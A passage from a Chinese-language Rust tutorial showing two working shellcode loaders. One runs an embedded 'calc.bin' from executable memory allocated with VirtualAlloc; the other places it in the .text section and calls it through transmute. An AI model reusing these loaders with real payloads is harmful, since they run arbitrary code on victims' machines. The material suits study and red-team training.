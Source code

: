     
    
    use std::mem::transmute;  
    use winapi::um::errhandlingapi::GetLastError;  
    use winapi::um::memoryapi::VirtualAlloc;  
    use winapi::um::processthreadsapi::CreateThread;  
    use winapi::um::synchapi::WaitForSingleObject;  
      
    fn main() {  
        let buffer = include_bytes!("..\\calc.bin");  
      
        unsafe {  
            let ptr = VirtualAlloc(std::ptr::null_mut(), buffer.len(), 0x00001000, 0x40);  
      
            if GetLastError() == 0 {  
                std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());  
      
                let mut threadid = 0;  
                let threadhandle = CreateThread(  
                    std::ptr::null_mut(),  
                    0,  
                    Some(transmute(ptr)),  
                    std::ptr::null_mut(),  
                    0,  
                    &mut threadid,  
                );  
      
                WaitForSingleObject(threadhandle, 0xFFFFFFFF);  
            } else {  
                println!("执行失败：{}", GetLastError());  
            }  
        }  
    }  
    

### 函数指针

`link_section`是Rust的一个attribute，它用来将特定的函数或者变量放到程序的指定的区块中，`.text`区块通常用来存储程序的执行代码，它会被加载到内存中并由处理器执行。  
然后通过`std::mem::transmute`将 `*const u8` 类型的指针转换为函数类型 `fn()`，最后执行shellcode。

    
    
    fn main() {  
        const BUFFER_BYTES:&[u8] = include_bytes!("..\\calc.bin");  
        const BUFFER_SIZE:usize = BUFFER_BYTES.len();  
      
        #[link_section = ".text"]  
        static BUFFER:[u8;BUFFER_SIZE] = *include_bytes!("..\\calc.bin");  
        unsafe{  
            let exec = std::mem::transmute::<*const u8,fn()>(&BUFFER as *const u8);  
            exec();  
        }  
    }  
    

### 通过 heapapi 申请内存
